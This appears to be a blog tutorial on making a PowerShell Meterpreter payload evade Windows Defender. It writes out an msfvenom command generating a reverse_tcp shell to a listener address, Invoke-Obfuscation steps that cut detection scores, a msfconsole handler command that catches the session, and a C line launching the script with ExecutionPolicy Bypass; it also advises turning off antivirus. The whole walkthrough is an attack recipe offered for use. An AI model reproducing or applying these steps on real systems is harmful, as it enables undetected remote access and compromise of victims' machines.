 ```yaml
---
title: Obfuscation Powershell Script Bypass Defender
published: true
---
```


<!--
Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.


[Link to another page](another-page).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-->

# [](#header-1) What is Obfuscation ?

In software development, obfuscation is the act of creating source or machine code that is difficult for humans or computers to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even to create a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry

# [](#header-2) Why could it Bypass Windows Defender

Windows defender is antivirus provided by windows to avoid infection from malware and trojan. Windows Defender collects trillions of data every day. It uses these data to take advantage and learn treat pattern to understand behaviour of malware.
The goal from obfuscation is to render the code hard to understand for the antivirus and make it upset. So Windows Defender won't able to classified the program as trojan and skip all detected potential treat for our malware.

<img src="../assets/example_obfuscation.png">

# [](#header-3) How to obfuscate our program ?

It exists severals methods and it depends by the programmation language used. As you known, each language has its syntax and its rules. Then compiled and interpreted language have different process to render it executable by machine.
In this example I will play with powershell syntax rules to obfuscate my script
and take advantage to deficient detection to bypass antivirus. 
Let's take an example with script in powershell. I will use basic common malware detected by all antivirus and make it undetectable by improvement.

# [](#header-4) Methodology & Results

To be honnest, there is not universal methodology but I build my own to make efficient test and trying to improve it to check difference at each level of obfuscation.

First of all, let's create basic meterpreter in powershell.
```console
msfvenom -p windows/x64/meterpreter/reverse_tcp lport=4444 lhost=192.168.1.66 -f psh -o basic_meterpreter.ps1
```
Now let's check the bad score this sample malware has.


<img src="../assets/basic_malware.png">

As you can see our malware has very bad score. It is easily detectable by common antivirus.

I discovered a nice repository specially consacred to obfuscate powershell script. In my case I will use the Invoke-Obfuscation module that is provide different methods that we are going to test: [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

**Important: you should disable your antivirus when you use it**

```console
git clone https://github.com/danielbohannon/Invoke-Obfuscation
cd Invoke-Obfuscation
Import-Module .\Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation
```


<img src="../assets/invoke-obs.png">

Let's set SCRIPTPATH variable and point it to your meterpreter script.

```console
SET SCRIPTPATH path/to/my/basic_meterpreter.ps1
```
Let's start by compress our code and hold it ine one line.
We choose Compress option. 
Then it generates a new script. Just copy it and save it. Now let's test if its has consequences on detection score

<img src="../assets/obsfuscate_one_line.png">

More or less, it's almost the same score. It's not really efficient.

Now it exist a basic method to obfuscate that is the concatenation of string. In powershell scripting it's usually used to bypass policy restriction but let's try if it has influence on the detection score.

I just choose the STRING option and apply the concatenation method on my compressed oneline script.

<img src="../assets/compress_and_concat.png">

TADAAAAM, it reduces considerably the detection by dividing the previous score by ~2. At this level, we can see it evades sandbox from antivirus.

Okay but now let's use the TOKEN option that is use method to obfuscate part of our code like variable, type, comment, etc...
As i'm greedy man, I obviously choose to obfuscate all differents syntax we can find my powershell script.
I just choose option ALL and apply it to my compressed_concatenation.ps1 script. Let's check the score

<img src="../assets/obsfuscate_compress_concat_token.png">

NIIIICE, it reducing it considerably by two. Ok now at this stage I tried to execute it on my machine to see what beheviour has Windows Defender. I just re-enabled all settings from defender to make it working.

<img src="../assets/defender.png">

Let's just right-click on my script and launch quick analyzing from Windows defender

<img src="../assets/no_treat.png">

okay let me translate, french is like obfuscation sometimes... it says.. NO TREAT DETECTED ! Let's launch a listener server from metasploit to test it.

```console
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 0.0.0.0; set exitfunc thread; set lport 4444; set ExitOnSession false; exploit -j"
```

Now, execute our script to see what hapen.

<img src="../assets/proof.png">

A session is etablished without killing session by Windows Defender !
Our script has actually evasion mode !

# Potential improvement

The problem with powershell script is that some machines have execution policy restriction. That means, it need the authorization of the system or the user to accept to execute our script. Typically we can run for example an innocent C program that is call our powerscript with some options that avoid restriction.

```c
system("powershell -ExecutionPolicy Bypass -F obfuscation_bypass_defender.ps1")
```

It's one method among severals, you can take a look this if you are interested: [https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)

# Proof of concept



# References

* [https://en.wikipedia.org/wiki/Obfuscation_(software)#:~:text=In%20software%20development%2C%20obfuscation%20is,roundabout%20expressions%20to%20compose%20statements.](https://en.wikipedia.org/wiki/Obfuscation_(software)#:~:text=In%20software%20development%2C%20obfuscation%20is,roundabout%20expressions%20to%20compose%20statements.)

* [https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide-part-2](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide-part-2)

* [https://www.youtube.com/watch?v=6xexyQwG7SY&t=770s&ab_channel=HackerSploit](https://www.youtube.com/watch?v=6xexyQwG7SY&t=770s&ab_channel=HackerSploit)